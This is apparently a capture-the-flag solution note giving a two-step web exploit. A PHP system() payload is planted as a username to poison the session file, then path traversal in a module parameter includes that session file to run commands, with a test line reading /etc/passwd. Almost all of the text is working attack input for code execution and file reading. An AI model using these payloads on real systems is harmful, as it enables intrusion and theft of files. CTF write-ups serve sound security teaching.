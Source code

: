 # solve
## step 1
action = register
user = <?php system("cat ../../../flag-66666666666"); ?>

## step 2
action = module
m = ../../../../var/lib/php/session/sess_qgq0jo3cm4v68iaru6bc8sb1j1
session id 看 request geader
test : m = ../../../../etc/passwd
